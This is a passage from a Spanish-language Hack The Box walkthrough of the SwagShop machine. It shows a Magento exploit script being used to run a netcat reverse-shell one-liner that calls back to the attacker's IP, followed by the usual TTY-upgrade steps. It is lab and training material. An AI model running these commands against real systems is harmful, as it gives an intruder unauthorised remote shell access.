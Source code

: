 Para ello vamos a ver primero si disponemos de `netcat` para tratar de establer una reverse shell:

    python3 magento-oneshot.py --command "wich nc" http://swagshop.htb/index.php

Vemos que si disponemos de netcat. Ahora vamos a tratar de establecer una 
reverse shell. En el siguiente enlace, podreis ver una gran repertorio
de herramientas desde las que establecer shells inversas.

Nosotros vamos a utilizar la de Netcat:

[https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
    
![Captura de pantalla -2022-05-05 01-46-13](https://user-images.githubusercontent.com/103068924/166850489-e62e07a6-eda5-4ef7-9759-723deff77eec.png)

Pimero preparamos en una terminal a parte, con nuestro comando netcat `nc` en escucha por el puerto `8080`.

    nc -lnvp 8080
    
 ![Captura de pantalla -2022-05-05 09-09-31](https://user-images.githubusercontent.com/103068924/166876948-fc9519f0-429a-4a41-b23f-86b89ec86d43.png)
 
Finalmente especificamos el comando que nos reporta el artículo dentro de nuestro comando anterior, tambien especificamos nuestra Ip (En este caso es nuestra vpn de HTB) y el puerto desde el que nos pondremos en escucha, `8080`.
 
    python3 magento-oneshot.py --command "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.29 8080 >/tmp/f" http://swagshop.htb/index.php
    
![Captura de pantalla -2022-05-05 01-47-38](https://user-images.githubusercontent.com/103068924/166876323-c111416f-50ca-4c3a-920a-9ca6ca1ccb0e.png)

Ya tenemos nuestro shell. Pero sigue sin ser funcional del todo.

![Captura de pantalla -2022-05-05 09-11-59](https://user-images.githubusercontent.com/103068924/166877544-d98100a1-a769-4b12-bb99-7c22b6411983.png)

Para poder obtener una shell completa basada en bash, utilizamos los siguientes comandos:

    script /dev/null -c bash
    
 ![Captura de pantalla -2022-05-05 09-12-36](https://user-images.githubusercontent.com/103068924/166877565-7c129c72-ef1d-4e52-bd19-af03d44d4283.png)

Ahora pulsamos `Cntl + z` enviamos el proceso a segundo plano. Y ejecutamos lo siguiente:

![Captura de pantalla -2022-05-05 09-12-53](https://user-images.githubusercontent.com/103068924/166877674-46b7f844-b2ed-47b9-bfac-4c8fbfa0bc57.png)

Ejecutamos el siguiente comando:
    
    stty raw -echo; fg
    
![Captura de pantalla -2022-05-05 09-13-31](https://user-images.githubusercontent.com/103068924/166877723-7f1282b0-fe27-4b73-b4a7-e4d72d07e97b.png)

    
Y terminamos reseteando la shell:    
    
    reset xterm
    
 ![Captura de pantalla -2022-05-05 09-17-59](https://user-images.githubusercontent.com/103068924/166877905-58e6f441-7889-4d9d-b1d4-386576924715.png)   
    